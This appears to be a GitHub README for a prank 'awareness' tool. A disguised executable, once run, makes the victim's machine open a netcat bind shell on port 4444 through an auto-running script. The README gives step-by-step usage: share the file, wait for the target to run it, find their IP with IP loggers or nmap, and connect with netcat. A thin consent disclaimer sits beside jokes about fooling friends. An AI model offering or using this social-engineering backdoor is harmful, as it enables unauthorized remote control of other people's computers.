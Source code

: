 ##  Why?
Because **people learn faster when they’re scared and slightly crying**.  
This tool aims to:

- Raise awareness of how easily social engineering works.
- Demonstrate how social engineering + trust = disaster
- Teach how reverse shells work in real-world setups
- Serve as a meme-worthy portfolio project
- Make your cybersecurity professors laugh nervously
- Make friends laugh, cry, maybe scream into a pillow and Rickroll them while you’re at it.

  
---

##  Usage

1. Host the executable and `netcat` folder.
2. Share the executable within a controlled test environment (e.g., local network or VM) with **explicit consent** of all parties involved. Never use anonymous link shorteners or tracking tools in real-world scenarios or you can perform an `nmap` scan over the network.
3. Wait for the target to run the file.
4. Connect to the shell:

   Okay, we’re getting a bit technical here. Buckle up and read each line like your life depends on it because, if you mess this up and your friend gets sus, you might end up on the next ride in the prison bus.
   
- **On target machine (Runs automatically with python script i.e. `main.py`)**.
   ```bash
   nc64 -lvp 4444
   ```
   
- **Attacker's Machine**.
  - **For Linux**
    ```bash
    nc <ip_address_of_the_target_machine> 4444
    ```
  
  - **For Windows**
    ```bash
    nc64 <ip_address_of_the_target_machine> 4444
    ```
    
   - Windows users can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.
   - here by `4444` we mean the port used for creating the backdoor, and in our case, it’s `4444`.. If required, port number can be changed in the `backdoor.bat` file accordingly.
     
   ---

   **NOTE:**
   
   - You will need to know the target IP address beforehand. You can either use IP Loggers or do an `nmap` scan over the local network using the network id, which can be obtained by the subnet mask and the IP address of your device.
   